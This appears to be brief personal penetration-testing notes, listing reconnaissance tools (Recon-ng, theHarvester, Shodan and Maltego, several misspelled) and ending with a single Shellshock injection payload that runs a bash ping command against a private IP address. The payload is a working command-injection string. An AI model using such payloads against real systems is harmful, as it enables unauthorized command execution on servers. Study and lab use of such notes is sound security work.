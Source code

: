 # Tools used for Recon

1- Recon-ng 

2- Thehavester

3-shodan

4-Malteago

() { :; }; /bin/bash -c 'ping -c 4 192.168.100.4'

